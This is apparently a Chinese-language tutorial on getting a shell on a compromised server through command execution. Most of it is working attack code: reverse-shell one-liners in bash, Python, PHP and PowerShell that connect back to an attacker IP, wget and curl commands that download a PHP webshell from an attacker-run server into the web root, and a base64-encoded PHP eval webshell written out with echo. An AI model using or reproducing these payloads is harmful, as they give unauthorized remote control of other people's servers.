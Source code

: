 ### 对于不能直接上传而只能通过命令行执行的 Shell 怎么办

**1. 反弹 Shell**

这是最常用、最有效的方法。它的原理是让目标服务器主动连接到你的攻击机，而不是让你去连接它。这能绕过目标服务器的防火墙和出站连接限制，同时给你一个完整的交互式 shell

**基本步骤：**

1. **在你的攻击机上设置监听**： 你需要一个网络监听器来等待来自目标服务器的连接。常用的工具有 `netcat` (nc) 或 `socat`

   ```bash
   # 使用 netcat 监听 4444 端口
   nc -lvnp 4444 
   ```

   `l` 表示监听，`v` 表示显示详细信息，`n` 表示不进行DNS解析，`p` 表示指定端口

2. **在目标服务器上执行反弹 shell 命令**： 根据目标服务器的操作系统和已有的工具，执行不同的命令

   - **Bash**：

     ```bash
     bash -i >& /dev/tcp/你的IP/4444 0>&1
     ```

   - **Python**：

     ```python
     python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<你的IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
     ```

   - **PHP**：

     ```php
     php -r '$sock=fsockopen("<你的IP>",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
     ```

3. **获取交互式 shell**： 当目标服务器执行该命令后，它会连接到你的监听端口。你的 `netcat` 窗口会显示连接成功的消息，并且你将获得一个可执行命令的 shell

**2. 通过 Web 请求传输文件**

如果目标服务器允许出站请求，并且你可以控制这些请求（比如通过 `curl` 或 `wget`），那么你可以让目标服务器从你的攻击机上下载文件

1. **在你的攻击机上创建一个简单的 HTTP 服务器**： 将你的 shell 文件（如一个 PHP Webshell）放在一个目录下，并用 Python 启动一个简单的 Web 服务器

   ```sh
   # 在你的 shell 文件所在目录下执行
   python3 -m http.server 80
   ```

2. **在目标服务器上执行下载命令**： 利用命令注入点，让目标服务器下载文件

   ```sh
   # 使用 wget
   wget http://你的IP/shell.php -O /var/www/html/shell.php
   
   # 或者使用 curl
   curl http://你的IP/shell.php > /var/www/html/shell.php
   ```

   **注意**：你需要知道一个可写的、Web 服务器可以访问的目录（如 `/var/www/html/` 或 `/tmp/`）。如果 `/tmp` 目录可以写入，你可以先下载到 `/tmp`，再想办法移动到 Web 目录

**3. 利用内置工具**

有些服务器环境自带一些可以创建 shell 的工具

- **VBScript / PowerShell (Windows)**： Windows 系统的 PowerShell 拥有强大的网络功能。你可以使用 PowerShell 来实现反弹 shell

  ```powershell
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<你的IP>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();"
  ```

  由于命令很长，你可以将其编码为 Base64 来避免空格和特殊字符的问题

**4. 利用 `echo` 或其他写入命令**

如果目标服务器的出站连接被严格限制，你不能使用反弹 shell 或下载文件，但可以执行命令行。你可以通过 `echo` 命令，一行一行地将 shell 代码写入到一个文件中

**基本步骤：**

1. **将你的 shell 代码进行编码**： 为了避免引号和特殊字符问题，你可以将代码进行 Base64 编码。

2. **使用 `echo` 和 Base64 解码命令**：

   ```bash
   # 假设你的 shell 代码经过 Base64 编码后为 "PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTsgPz4="
   echo "PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTsgPz4=" | base64 -d > /var/www/html/shell.php
   ```

   如果服务器不支持 `base64 -d`，你可能需要用其他方法，比如分多行写入，或者利用 `python -c 'print ...'` 来写入文件